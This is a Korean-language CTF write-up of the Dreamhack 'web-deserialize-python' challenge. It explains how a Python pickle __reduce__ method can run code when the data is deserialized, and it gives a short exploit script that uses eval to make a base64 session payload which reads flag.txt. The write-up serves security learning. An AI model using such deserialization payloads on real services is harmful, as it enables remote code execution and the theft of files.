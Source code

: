 ```yaml
---
layout: single
title: "[Dreamhack] web-deserialize-python write-up"
date: 2024-12-26 22:12 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] web-deserialize-python

<br>

### 문제 설명

- Session Login이 구현된 서비스입니다.
- Python(pickle)의 Deserialize 취약점을 이용해 플래그를 획득하세요. 
- 플래그는 flag.txt 또는 FLAG 변수에 있습니다.

<br>

문제 사이트에 접속하면 세션 Create, Check 탭이 존재한다.

![{26300EC2-776C-4E23-A721-C5983BD1CB59}](/images/2024-12-26-web-deserialize-python/{26300EC2-776C-4E23-A721-C5983BD1CB59}.png)

<br>

Create 탭에 들어가서 만들기 전 쿠키를 확인해보면 아무것도 존재하지 않는다.

![{1969DCEC-48E6-4D65-963A-08A4DA837136}](/images/2024-12-26-web-deserialize-python/{1969DCEC-48E6-4D65-963A-08A4DA837136}.png)

<br>

Name, Userid, Password를 전부 guest 값으로 주고 Create 버튼을 누르니 세션을 만들어주었다.

![{E8E4940C-7CE5-4820-B0F8-4553F97A6B7E}](/images/2024-12-26-web-deserialize-python/{E8E4940C-7CE5-4820-B0F8-4553F97A6B7E}.png)

<br>
check 탭에서 세션을 확인해보면 아래와 같이 Name, Userid, Password에 넣었던 값들이 출력되는 것을 알 수 있다.

![{800EB43A-4FAD-4EBC-96C3-EDBD202E792E}](/images/2024-12-26-web-deserialize-python/{800EB43A-4FAD-4EBC-96C3-EDBD202E792E}.png)

<br>

파이썬 pickle 모듈은 객체 구조의 직렬화(serialization)와 역직렬화(deserialization)를 위해 사용하는데, 쉽게 말해 파이썬 객체를 저장하거나 전송하기 위해 변환하고, 다시 그 객체로 복원하는 데 사용되는 도구이다.  

직렬화를 하는 이유는 데이터를 파일/DB에 저장하거나 또는 세션에 걸쳐 프로그램 상태를 유지하거나, 네트워크를 통해 데이터를 전송하기 위해서이다. 

- serialize : 파이썬 객체 계층 구조 -> 바이트 스트림 = pickling
- deserialize: 바이트 스트림 -> 파이썬 객체 계층 구조 = unpickling

<br>

pickle 모듈은 다양한 메서드를 지원하는데, 이 중 `__reduce__()` 메서드에서 취약점이 발생할 수 있다고 한다. 

>  `__reduce__()` 메서드는 파이썬 객체 계층 구조를 역직렬화(unpickling)할 때 객체를 재구성하는 데 사용되는 튜플을 반환하는 메서드이다.

<br>

pickling된 바이트 스트림을 unpickle할 때 pickle 모듈은 먼저 original object의 인스턴스를 만들고 나서 그 인스턴스를 올바른 데이터로 채운다. 이를 위해서 바이트 스트림에는 original object 인스턴스에 특정된 데이터만을 포함한다.  

이때, unpickle을 성공적으로 하기 위해서 객체를 어떻게 재구성할지 정의하는 명령 피연산자와 명령어들이 포함되어 있어야 하는데, 이 명령 피연산자와 명령어들은 `__recude__()`메서드에서 반환되는 정보들이다.

<br>

`__reduce__()` 메서드의 리턴 값 (보통 2개)

- 호출 가능한 객체
- 호출 가능한 객체에 대한 인자. 호출 가능한 객체가 인자를 받아들이지 않으면 빈 튜플을 제공해야 한다.

> 이때, `__reduce__()` 메서드에서 호출 가능한 객체에 eval 또는 os와 같이 명령어를 실행할 수 있도록 클래스를 임의로 지정할 수 있다면, 이로 인해 RCE와 같은 보안 취약점이 발생할 수 있다.

<br>

이번 문제를 풀기 위해선 일단 세션이 어떻게 만들어지는지 보자. info 라는 변수에 {} 로 딕셔너리 형태로 name, userid, password 값이 들어가고 dumps 함수로 직렬화한 후에 이 바이트 스트림을 base64로 인코딩 해준다. 마지막으로는 utf8로 디코딩까지 해주는 걸 알 수 있다.

```python
INFO = ['name', 'userid', 'password']

@app.route('/create_session', methods=['GET', 'POST'])
def create_session():
    if request.method == 'GET':
        return render_template('create_session.html')
    elif request.method == 'POST':
        info = {}
        for _ in INFO:
            info[_] = request.form.get(_, '')
        data = base64.b64encode(pickle.dumps(info)).decode('utf8')
        return render_template('create_session.html', data=data)
```

<br>

위와 같은 로직으로만 세션을 만들어주면 문제 사이트의 /check_session 경로에서 데이터를 읽어와줄 것이다. 따라서 아래와 같이 `__reduce__()` 메소드를 이용해 ./flag.txt 파일을 읽는 코드를 만들고 eval 객체를 통해서 b 코드를 실행하는 세션을 만들어주면 flag 값을 획득할 수 있다.

```python
import os, pickle, base64

class a:
    def __reduce__(self):
        b = "open('./flag.txt').read()"
        return (eval, (b, ))

test = {'name': a()}

print(base64.b64encode(pickle.dumps(test)).decode('utf8'))
```

![{72A8F3F6-D35A-43AB-9BA1-991387F89606}](/images/2024-12-26-web-deserialize-python/{72A8F3F6-D35A-43AB-9BA1-991387F89606}.png)